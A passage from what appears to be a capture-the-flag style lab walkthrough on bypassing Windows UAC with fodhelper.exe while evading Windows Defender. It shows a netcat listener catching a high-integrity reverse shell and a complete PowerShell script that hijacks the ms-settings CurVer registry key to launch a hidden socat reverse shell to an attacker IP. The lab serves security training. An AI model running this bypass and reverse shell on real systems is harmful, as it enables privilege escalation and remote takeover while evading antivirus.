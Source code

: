 Depending on your luck, fodhelper might execute before the AV kicks in, giving you back a reverse shell. If for some reason it  doesn't work for you, keep in mind that this method is unreliable as it  depends on a race between the AV and your payload executing first.  Should the reverse shell not work, just go ahead and continue with the  rest of the room, as a more consistent way to bypass Windows Defender  will be given below.

- **Attacker's Shell**        

```shell-session
user@kali$ nc -lvp 4444      
Listening on 0.0.0.0 4444
Connection received on 10.10.183.127 49813
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami /groups | find "Label"
Mandatory Label\High Mandatory Level                          Label            S-1-16-12288
        
```

Windows Defender still alerts about the  bypass, however. The problem with our current exploit is that it gives  little room for variation, as we need to write specific registry keys  for it to trigger, making it easy for Windows Defender to detect. But  there is still something to be done about it.

### Improving the fodhelper exploit

A variation on the fodhelper exploit was proposed by [@V3ded](https://v3ded.github.io/redteam/utilizing-programmatic-identifiers-progids-for-uac-bypasses), where different registry keys are used, but the basic principle is the same.

Instead of writing our payload into

 `HKCU\Software\Classes\ms-settings\Shell\Open\command`, we will use the `CurVer` entry under a progID registry key. This entry is used when you have  multiple instances of an application with different versions running on  the same system. CurVer allows you to point to the default version of  the application to be used by Windows when opening a given file type.

To this end, we will create an entry on the registry for a new progID of our choice (any name will do) and then point the CurVer entry in the ms-settings progID to our newly created progID. This way, when  fodhelper tries opening a file using the ms-settings progID, it will  notice the CurVer entry pointing to our new progID and check it to see  what command to use.

The exploit code proposed by @V3ded uses Powershell to achieve this  end. Here is a modified version of it adapted to use our reverse shell (be sure to replace your IP address where needed):

```powershell
$program = "powershell -windowstyle hidden C:\tools\socat\socat.exe TCP:<attacker_ip>:4445 EXEC:cmd.exe,pipes"

New-Item "HKCU:\Software\Classes\.pwn\Shell\Open\command" -Force
Set-ItemProperty "HKCU:\Software\Classes\.pwn\Shell\Open\command" -Name "(default)" -Value $program -Force
    
New-Item -Path "HKCU:\Software\Classes\ms-settings\CurVer" -Force
Set-ItemProperty  "HKCU:\Software\Classes\ms-settings\CurVer" -Name "(default)" -value ".pwn" -Force
    
Start-Process "C:\Windows\System32\fodhelper.exe" -WindowStyle Hidden
```
